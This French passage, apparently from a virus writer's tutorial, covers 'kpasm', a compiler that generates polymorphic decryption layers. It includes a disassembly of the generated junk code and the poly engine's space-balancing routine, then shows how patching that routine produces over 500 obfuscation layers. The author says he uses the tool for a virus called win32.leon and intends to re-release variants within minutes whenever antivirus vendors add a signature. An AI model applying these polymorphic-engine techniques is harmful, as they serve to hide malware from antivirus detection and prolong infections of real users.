EAX,ECX 0041719A . 8915 9B024300 MOV DWORD PTR DS:[43029B],EDX 004171A0 . 81EA F7CFCE48 SUB EDX,48CECFF7 004171A6 . 8B15 9B024300 MOV EDX,DWORD PTR DS:[43029B] 004171AC . C705 9B024300 >MOV DWORD PTR DS:[43029B],302DDF 004171B6 . BA 2B004300 MOV EDX,main.0043002B 004171BB . 890A MOV DWORD PTR DS:[EDX],ECX 004171BD . 81C1 E724F9B5 ADD ECX,B5F924E7 004171C3 . BE AA293900 MOV ESI,3929AA 004171C8 . 8B3D 03024300 MOV EDI,DWORD PTR DS:[430203] 004171CE . 2BF7 SUB ESI,EDI 004171D0 . 0335 C7004300 ADD ESI,DWORD PTR DS:[4300C7] 004171D6 . 8B0E MOV ECX,DWORD PTR DS:[ESI] 004171D8 . BE 248B16C3 MOV ESI,C3168B24 004171DD . 81C6 1CB1EE3C ADD ESI,3CEEB11C 004171E3 . 8B3D D7024300 MOV EDI,DWORD PTR DS:[4302D7] 004171E9 . 0335 B7014300 ADD ESI,DWORD PTR DS:[4301B7] 004171EF . 2B35 FF024300 SUB ESI,DWORD PTR DS:[4302FF] 004171F5 . 8935 2B004300 MOV DWORD PTR DS:[43002B],ESI 004171FB . 83F8 00 CMP EAX,0 004171FE . 74 05 JE SHORT main.00417205 00417200 .^E9 34FFFFFF JMP main.00417139 00417205 > CC INT3 00417206 . BA 355A52B7 MOV EDX,B7525A35 0041720B . 81C2 A818EF48 ADD EDX,48EF18A8 00417211 . BD E16B539C MOV EBP,9C536BE1 00417216 . BB EB5F0000 MOV EBX,5FEB 0041721B > 8B3A MOV EDI,DWORD PTR DS:[EDX] 0041721D . 50 PUSH EAX 0041721E . B8 0BD7A606 MOV EAX,6A6D70B 00417223 . 892D 57024300 MOV DWORD PTR DS:[430257],EBP 00417229 . 892D 17024300 MOV DWORD PTR DS:[430217],EBP 0041722F . C705 17024300 >MOV DWORD PTR DS:[430217],2B213A ; UNICODE "dd.MM.yyyy"Tout va bien ! Les layers sont exécutés, le code décrypté, et au final, la MessageBox est lancée, super ! Des fois ca prend un peu de temps, genre 2-3 secondes, avant que la MessageBox soit exécutée. C'est normal, y'a des boucles inutiles insérerées comme junk code, boucle qui peuvent être imbriquées, sans compter l'imbrication des layers.
Lorsque l'on break après l'appel à poly_asm, deux valeurs sont interessantes:
EAX 00000E72 EBX 00000032Quoi ? C'est tout ? Seulement 50 layers générés ? Seulement 3k sur 300k d'utilisés ? Maioukisontleslayers ?
La transfo decrypteur est exécutée et un décrypteur est produit. Comme on a ajusté les probas pour qu'il ne soit pas très gros, disons qu'il fait 2k. 100k-2k=98k sont donc redistribués à l'appel récursif vers moulte_layers (100k+49k=149k) et à l'appel vers encrypteur (149k aussi).
Au final, même si on a ajusté les probas dans ex.kpasm pour que tout se passe bien, la fonction d'équilibrage du poly engine fait tout foirer. Et dans ce cas très précis, il aurait mieux fallu ne pas faire de répartition du tout et laisser les probas des règles décider toutes seules quelle transfo utilise quelle quantité d'espace libre.
;======================= FONCTION d'EQUILIBRAGE ===================== ; in: eax=nb transfos restantes, edx=espace disponible en octets ; out: edx= nouvel espace disponible, eax=espace oté à edx et réservé ; pour les transfos suivantes ; ; Par defaut, cette regle aloue 1/nb_transfos_restantes à la transfo en cours. ; C'est a dire, elle effectue : ; edx=(edx*nb_transfos_restantes)/(nb_transfos_restantes+1) ; Ceci permet de répartir équitablement dans une règle l'espace disponible. ; ; Cependant, cette strategie n'est pas toujours la bonne, notamment pour les ; règles fortement récursives. Dans ces cas là, une stratégie "je ne répartis rien" ; peut être préférable (au risque de voir une instruction de la regle consommer ; tout l'espace disponible au détriment des instructions suivantes) : ; ;optimise_taille_code_genere : ; xor eax,eax ; ret optimise_taille_code_genere : xor eax,eax ret push edx mov ebx,eax inc ebx imul eax,edx xor edx,edx div ebx pop edx sub edx,eax ret
Cool, on peut modifier facilement cette fonction. Faites comme il est judicieusement préconisé dans les commentaire, c'est à dire remplacez cette fonction par :
optimise_taille_code_genere :
xor eax,eax
ret
Recompilez main.asm, mais sans relancer kpasm car il écraserait vos modifications apportées à poly_assembleur.asm. Le script compile sans regenerer le poly.bat s'en charge. On relance main.exe sous olly puis un joli F9, et là, oh joie :
EAX 00018696 EBX 0000023AW00t, plus de 500 layers générés, tout l'espace disponible occupé, beaucoup mieux que précédemment ! Si on essaye de l'exécuter, Y'a tellement de layers que la MessageBox mets plus de 20 secondes avant d'être exécutée. Super !
Je me suis demandé si au final il valait pas mieux supprimer cette fonction d'équilibrage. Mais bon, elle est quand même souvent utile. En particulier pour ceux qui ne maitrisent pas encore les probas dans kpasm et qui ont tendance à laisser une seule règle consommer tout l'espace dispo. Je crois donc qu'on va laisser comme ça, et ce sera à vous de modifier cette fonction d'équilibrage pour ces cas spécifiques.
Quant à la génération de layers, j'éspère que ce petit accroc ne vous aura pas découragé d'utiliser kpasm. Ce qu'il faut voir surtout, c'est qu'en quelques minutes, vous avez généré 500 layers polymorphisés qui donneront pas mal de fil à retordre aux reverseurs. Et encore, les règles utilisées dans cet exemple sont extremement simples.
A vrai dire, au départ kpasm n'était censé être qu'un petit fichier de macros pour tasm. Ce n'est devenu un compilateur qu'au fur et à mesure, autant dire que l'architecture du code n'a pas été des masses planifiée. Si les sources ne sont pas jointes, vous pouvez toujours me les demander par mail, je vous les enverrai.
Si je devais faire la liste des défauts de kpasm, ce serait:
Malgré ces défauts, j'éspère tout de même vous avoir convaincu que ce soft peut s'avérer utile, au moins un peu. En tout cas, moi il m'a bien servi pour win32.leon. Je dis pas qu'il m'a fait gagné du temps, vu que développer kpasm m'a pris pas mal de temps quand même, mais il m'a évité pas mal de prise de tête à débugger le poly engine.
Et surtout, si quand je sors win32.leon les AV posent une signature dessus (si j'ai chié le poly), et bien ca me prendra pas plus de deux minutes pour rectifier ça et sortir une nouvelle version. Pour une fois, j'irai plus vite qu'eux, et ça c'est cool.
Si vous désirez voir des fonctionnalités incluses dans la prochaine version, vous toujours me mailer vos suggestions. Si c'est pas trop chiant et suffisamment pertinent, y'a moyen que je le fasse.